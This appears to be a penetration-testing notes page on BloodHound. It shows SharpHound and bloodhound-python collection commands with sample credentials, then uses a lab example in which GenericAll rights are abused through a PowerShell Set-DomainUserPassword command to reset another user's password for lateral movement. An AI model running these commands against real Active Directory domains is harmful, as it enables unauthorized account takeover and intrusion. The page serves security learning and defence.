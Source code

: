 ```yaml
---
description: >-
  BloodHound uses graph theory to reveal the hidden and unintended relationships
  within an AD.
cover: ../../.gitbook/assets/example-path.png
coverY: 0
---
```


# Bloodhound

## What is Bloodhound

BloodHound is a powerful tool which everages graph theory to uncover hidden connections within Active Directory. This enables both attackers and defenders to visualize complex attack paths that might otherwise go unnoticed.

Bloodhound will show you the rights users have over others and this way show you a path for lateral movement. Bloodhound will also tell you what abuse is possible and provide the command to achieve this.&#x20;

#### Extracting  information with Sharphound

To get all the data we need to import in Bloodhound we can use Sharphound. This will create a .zip file with within .json files which can be importinto Bloodhound.

```bash
.\SharpHound.exe -c All --zipfilename ZENCORP
```

#### Bloodhound.py

[Bloodhound.py](https://github.com/dirkjanm/BloodHound.py) will also retrieve all information but does so from Linux.

```bash
sudo bloodhound-python -u 'james' -p 'pass123' -ns 172.16.5.5 -d zencorp.local -c all 
```

### Start Bloodhound

When starting Bloodhound for first time you have to change the password after starting the console

<details>

<summary>Start Bloodhound</summary>

```bash
$ sudo neo4j console

Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2024-11-11 08:59:26.665+0000 INFO  Starting...
2024-11-11 08:59:27.069+0000 INFO  This instance is ServerId{6b761dd5} (6b761dd5-5ceb-4533-b057-a813dbb7b3f3)
2024-11-11 08:59:28.143+0000 INFO  ======== Neo4j 4.4.26 ========
2024-11-11 08:59:29.127+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2024-11-11 08:59:29.127+0000 INFO  Updating the initial password in component 'security-users'
2024-11-11 08:59:32.231+0000 INFO  Bolt enabled on localhost:7687.
2024-11-11 08:59:32.929+0000 INFO  Remote interface available at http://localhost:7474/
2024-11-11 08:59:32.932+0000 INFO  id: A51C60F7471651F5AB0B76A926FE7344157C9E9427F8D0BD84D5D886751B9547
2024-11-11 08:59:32.932+0000 INFO  name: system
2024-11-11 08:59:32.932+0000 INFO  creationDate: 2024-11-10T18:59:02.38Z
2024-11-11 08:59:32.933+0000 INFO  Started.

# Then start Bloodhound
bloodhound
```

</details>

Upload the JSON files

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

In this case we had credentials of Oliva user so we are starting there to see what rights she has. In the left pane search for Oliva and select it when the result is returned.  First thing to check is OUTBOUND OBJECT CONTROL because this will identify potential lateral movement.

Clicking on Transitive Object Control shows Olivia has GenericAll over Michael and Michael has ForceChangePassword over Benjamin.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

#### GenericallAll

Right click on Genericall and choosing help will tell us what GenericAll is and how it can be abused. Going to the tab Windows Abuse it tells us we can Kerberoast or Force Change Password. Bloodhound even provides the commands for it.

```powershell
# Save password in SecPassword
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

# Credential object stores a username and password
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\mczen', $SecPassword)

# Save new password in UserPassword
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

# Set new password
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred
```

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

#### Custom queries

Queries will help you find interesting users and important things in Bloodhound.

```
curl -o ~/.config/bloodhound/customqueries.json "https://raw.githubusercontent.com/CompassSecurity/BloodHoundQueries/master/BloodHound_Custom_Queries/customqueries.json"
```

\=\




